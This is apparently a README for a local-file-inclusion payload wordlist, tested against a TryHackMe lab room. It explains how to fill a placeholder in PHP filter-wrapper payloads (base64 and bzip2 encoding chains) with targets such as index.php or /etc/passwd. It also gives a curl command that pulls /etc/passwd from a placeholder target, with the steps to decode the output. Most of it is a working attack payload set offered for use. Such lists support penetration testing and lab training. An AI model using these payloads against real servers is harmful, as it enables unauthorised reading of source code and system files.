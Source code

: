 # LFI PHP wrapper 
## `LFI-PHP-wrapper.txt`
- Tested against the playground in https://tryhackme.com/room/filepathtraversal
- The payload list given in `LFI-PHP-wrapper.txt` should be modified by replacing the placedholder (`*`) with a common filename, such as `index.php` or `/etc/passwd`.

```shell
$ sed 's/*/index.php/g' [lfi-php-wrapper-txt-filename] > lfi-php-wrappers-custom.txt
$ sed 's/*/\/etc\/passwd/g' [lfi-php-wrapper-txt-filename] > lfi-php-wrappers-custom.txt
```

Eg.

1. `php://filter/convert.base64-encode/resource=*` -> `php://filter/convert.base64-encode/resource=index.php`
2. `php://filter/convert.base64-encode/resource=*` -> `php://filter/convert.base64-encode/resource=/etc/passwd`
   
> For more comprehensive testing, the placeholder can be combined with the payload in dedicated LFI/path-traversal payload list (`LF.md`, etc.). This would effectively combine the capabilities of both wordlists.


## Examples of working payload
1. ***bzip2 + base64 encode***
```php
php://filter/bzip2.compress|convert.base64-encode/resource=*
php://filter/read=bzip2.compress|convert.base64-encode/resource=*
```
- This will output a base64-encoded value that gives a bzip2 compressed data when decoded

Eg.
```shell
$ curl https://[target].com/page?=php://filter/bzip2.compress|convert.base64-encode/resource=/etc/passwd > output.txt

# extract base64 string
$ cat output.txt

$ echo [base64 string] | base64 -d | bzip2 -d
...
```
